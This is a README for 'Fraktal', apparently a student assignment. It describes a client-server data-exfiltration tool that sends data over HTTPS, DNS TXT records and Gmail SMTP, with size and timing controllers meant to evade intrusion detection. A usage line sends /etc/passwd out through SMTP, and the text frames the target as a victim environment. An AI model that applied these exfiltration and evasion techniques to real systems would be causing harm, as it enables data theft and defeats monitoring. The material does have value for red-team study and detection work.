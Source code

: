 # Fraktal Project

This repository contains the code for the Fraktal project, which includes both client and server applications. The client application can send messages or files using different protocols (HTTPS, DNS, SMTP), and the server application can receive and process these messages or files.

## Table of Contents

- [Installation](#installation)
- [Usage](#usage)
- [Docker](#docker)
- [Techinical Details](#technical-details)
- [Demo](#demo)
## Installation

### Prerequisites

- Python 3.10 or higher

### Clone the Repository

```sh
git clone https://github.com/khaluan/FraktalAssignment.git
cd FraktalAssginment
```

### Install Python Dependencies
```sh
pip install -r requirements.txt
```
## Usage
### Client Application
The client application can send messages or files using different protocols. You can specify which clients to include, which message to send, or which file to send via command-line arguments.

```sh
python -m client.main --clients https dns --message "Hello, world!"  --size 1000 --rate 5
python -m client.main --clients smtp --file "/etc/passwd"
```

The client application is based on a manager that could change to a different protocol when the current protocol is blocked. 

### Server Application

#### Create certificate for HTTPS server
The HTTPS server requires to have a TLS certificate to operate. To create a self-sign certificate, run the following commands and change the domain name to the corresponding domain.
```sh
openssl genpkey -algorithm RSA -out certs/server.key
openssl req -new -key certs/server.key -out certs/server.csr -subj "/CN=your-domain.com"
openssl x509 -req -days 365 -in certs/server.csr -signkey certs/server.key -out certs/server.crt
```

The server application can receive and process messages or files sent by the client application. User could select to deploy all or few selective protocols on this server. The message is stored in received.txt file and the files are stored in files folder.

```sh
python -m server.main 
```

### Environment variables
The environment variables are stored in the corresponding **[server/client]/config.py** and the credential should be setup in the **.env** file

One important notice is that it is recommended to use two different accounts when exfiltrating data with SMTP, since the credential of the sender is deployed into the victim environment, therefore, that mailbox is considered to be fully compromised. Hence it is not recommended to store any information in that mailbox.

## Technical details
The application tries to send data using different protocol by abusing different fields of the network packet based on the corresponding protocols.

### HTTPS
HTTPS provides a secure communication with TLS. Therefore, it is straightforward to put the data into the body of the requests. In this project, the server setup a simple HTTPS server handle the POST requests. 

The body of the request is used to store data. In case of sending a file, it is encoded using multi-part form. In this case the communication don't need any further encryption since the traffic is already protected with TLS. 

The could be blocked if the the server is already blacklisted by the IDS, and can be detected through SNI.

Further protection could be employed encrypt the SNI using the ECH extension in TLS 1.3 to further hide the traffic among benign TLS traffics. However, this is not implemented in this project due to time constraint.

### DNS
DNS is a protocol used to translate human readable names to IP addresses. DNS is based on UDP, and is widely used without encryption. Therefore, the content of the traffic could be analyzed with intrusion detection systems. Therefore, to make it unreadable by the IDS, we need to perform an encryption step before sending the message. 

The client will initiate a request for A record of the specific domain to the server with a specific name to get the encryption key. The key will be in base64 encoding stored in the domain name of the response. Since the encryption key is small it could easily fit into the domain name. 

Then all the subsequent traffic will encrypt the message that needs to be sent, and stored it in an additional TXT record. Since the TXT records allow up to 255 bytes of additional data, it could be abused to encode the data.

However, the DNS requests and response is limited in terms of throughput, it is only effective to extract small data or message. If the size of the data is large, it would result in either big DNS request, or high number of requests per second. Due to this nature, the DNS client only support sending message instead of files.

### SMTP
We use SMTP to create an email from sender to the receiver with the data attached to the body and the extracted files as the attachment. We abuse the smtp server of Google to create a higher credability since it has good reputation and is not likely to be blocked by IDS.

The server just simple check for any new message after a period of time, parse the data and the attachment in the email. However, each attachment is only limited up to 25MB by Google mail service. For a large file exfiltration, the client could split the file into 25MB chunks and send it over the SMTP with the order embedded in the filename.  Then the server can parse that data and reconstruct the file based on the order. The feature is possible to implement, however, due to the time constraint, the implementation is not included in this projects. The client in this projects only support files that is less than 25MB.

To create the application password for gmail account please follow the instruction [here](https://myaccount.google.com/apppasswords)

### Traffic controllers
We provides 2 types of traffic controllers, including the packet size controller and the time controller. This is inspired by the common behavior of the IDS, which is detecting the data exfiltration based on large traffic to a destination server or high number of traffic during a period of time.

#### Package size controller
This controller will try to split the message into smaller chunks with variable length to make the traffic looks the same as the normal traffic. The controller can be configure to have the average payload length for each requests.

This can be set at client with --size [size] flag and only available for sending message

#### Time-based controller
The controller creates pauses between different requests to reduce the high volumn of connection between the client and the server. This controller can be configured by specifying the maximum number of connection per seconds

This can be set at client with --rate [rate] flag and only available for sending message

## Demo
This can be deployed with docker-compose by running 
```sh
docker-compose up
docker compose exec client python -m client.main --clients https --message "hello"
docker compose exec server cat received.txt 
docker compose exec server ls files 
docker compose exec server cat files/[your file name]
```